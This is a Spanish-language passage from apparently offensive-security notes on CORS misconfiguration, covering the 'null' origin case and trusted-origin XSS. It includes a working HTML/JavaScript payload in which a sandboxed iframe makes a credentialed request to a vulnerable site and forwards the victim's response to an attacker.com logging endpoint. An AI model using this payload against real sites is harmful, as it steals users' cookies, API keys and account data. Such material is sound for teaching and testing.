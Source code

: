 se lo enviamos a la victima (previamente logueada en `https://vulnerable.site`) y cuando habra el archivo html, hara una peticion a la ruta la cual tiene la mala configuracion del CORS y nos enviara sus cookies, apikeys y demas a nuestro servidor web (en los logs o consola).


### ACAO en NULL

Puede que el CORS este mal configurado y el valor de `Access-Control-Allow-Origin` este definido en `null`, en caso de encontrarse con esta configuracion para las `Access-Control-Allow-Credentials` en `true`:

```http
...
Access-Control-Allow-Origin: null  
Access-Control-Allow-Credentials: true
```

podemos utilizar el mismo ataque visto anteriormente usando JS pero para que simule tener un origen null la peticion debemos colocarle en un `iframe`:

```html
<html>
	<body>
		<iframe sandbox="allow-scripts allow-top-navigation allow-forms" 		src="data:text/html,<script> 
																					 
			var req = new XMLHttpRequest(); 
			req.onload = reqListener; 
			req.open('get','https://vulnerable.site/accountDetails',true); 
			req.withCredentials = true; #para que capture las credenciales
			req.send(); 
			
			function reqListener() 
			{ 
				mi_web_server='https://attacker.com'
				location=mi_web_server+'/log?key='+this.responseText; 
			}; 
		</script>"></iframe>
	</body>
</html>
```

### XSS A TRAVES DE LA PAGINA EN QUE SE CONFIA

Incluso CORS configurado "correctamente" establece una relación de confianza entre dos orígenes. Por ejemplo:

**Pagina B** confia en **Pagina A**

```http
GET /data HTTP/1.1  
Host: paginaB.com  
Origin : paginaA.com
```

El servidor de `robust-website.com` devuelve la siguiente respuesta:
